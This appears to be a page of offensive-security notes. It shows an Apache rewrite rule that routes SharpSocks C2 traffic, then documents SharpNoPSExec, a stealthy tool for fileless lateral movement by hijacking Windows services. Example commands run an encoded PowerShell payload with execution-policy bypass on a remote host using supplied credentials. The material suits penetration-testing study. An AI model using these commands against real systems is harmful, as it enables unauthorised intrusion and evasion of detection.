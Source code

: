 ### **Apache Rewrite Rule (C2 Proxy)**

For TLS termination and routing SOCKS URLs to a local server, Apache rewrite rules can be used:

```jsx
Define SharpSocks 127.0.0.1:49031
RewriteRule ^/sharpsocks1/(.*) <http://$>{SharpSocks} [NC,L,P]
RewriteRule ^/sharpsocks2/(.*) <http://$>{SharpSocks} [NC,L,P]

```

## **SharpNoPSExec**

### **Description**

SharpNoPSExec is a tool designed for file-less command execution, primarily used in lateral movement scenarios in cybersecurity. It offers a stealthy approach to executing payloads on remote machines without touching the disk or creating a new service, thus minimizing detection risks. The tool is inspired by the PSExec method discussed in the OSEP (Offensive Security Experienced Penetration Tester) course, but it innovates by avoiding disk writes and new service creation.

### **Functionality**

- SharpNoPSExec queries all services on the target machine and selects one that meets specific criteria: start type disabled or manual, current status stopped, and running with LocalSystem privileges.
- It temporarily modifies the selected service by changing its binary path to the user's payload.
- Executes the payload and then, after a short delay (default 5 seconds), restores the service to its original configuration.
- This process allows for executing a payload on a remote machine without leaving significant traces or creating new services.

### **Example Commands**

- **Basic Command**:
    
    ```css
    SharpNoPSExec.exe --target=192.168.56.128 --payload="c:\\windows\\system32\\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="
    
    ```
    
    This command targets the machine at IP **`192.168.56.128`** and executes the specified Base64-encoded PowerShell command.
    
- **With Authentication**:
    
    ```css
    SharpNoPSExec.exe --target=192.168.56.128 --payload="payload_command" --username=user --password=pass --domain=domain
    
    ```
    
    This variant includes credentials for authentication on the target machine.
    